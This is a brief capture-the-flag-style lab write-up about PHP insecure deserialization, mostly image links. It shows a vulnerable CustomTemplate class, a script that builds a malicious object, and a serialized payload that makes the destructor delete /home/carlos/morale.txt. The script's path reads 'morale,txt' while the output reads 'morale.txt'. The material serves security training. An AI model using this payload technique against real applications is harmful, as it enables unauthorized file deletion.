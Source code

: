 ## Lab Description :

![image](https://github.com/user-attachments/assets/d3c37505-cb75-4b07-a22e-667f4a133a26)

## Solution :

![image](https://github.com/user-attachments/assets/3aa95695-4919-41ca-8fe7-3bdb42650063)

![image](https://github.com/user-attachments/assets/4c3c2db4-ff87-4eae-9d75-b62450eebc01)
![image](https://github.com/user-attachments/assets/45cd0741-ef97-4d0f-8724-097f8401f999)
![image](https://github.com/user-attachments/assets/32a84511-3746-40b2-b3e6-b86b4a2a9e28)

```php
<?php

class CustomTemplate {
    private $template_file_path;
    private $lock_file_path;

    public function __construct($template_file_path) {
        $this->template_file_path = $template_file_path;
        $this->lock_file_path = $template_file_path . ".lock";
    }

    private function isTemplateLocked() {
        return file_exists($this->lock_file_path);
    }

    public function getTemplate() {
        return file_get_contents($this->template_file_path);
    }

    public function saveTemplate($template) {
        if (!isTemplateLocked()) {
            if (file_put_contents($this->lock_file_path, "") === false) {
                throw new Exception("Could not write to " . $this->lock_file_path);
            }
            if (file_put_contents($this->template_file_path, $template) === false) {
                throw new Exception("Could not write to " . $this->template_file_path);
            }
        }
    }

    function __destruct() {
        // Carlos thought this would be a good idea
        if (file_exists($this->lock_file_path)) {
            unlink($this->lock_file_path);
        }
    }
}

?>
```

```
<?php

class CustomTemplate {
   public $lock_file_path='/home/carlos/morale,txt';
    }

$obj = new CustomTemplate();
$test = serialize($obj);
echo $test;
?>
```


```
O:14:"CustomTemplate":1:{s:14:"lock_file_path";s:23:"/home/carlos/morale.txt";}
```


![image](https://github.com/user-attachments/assets/7c6347fb-d5de-416e-af7e-903c9f6adf2a)

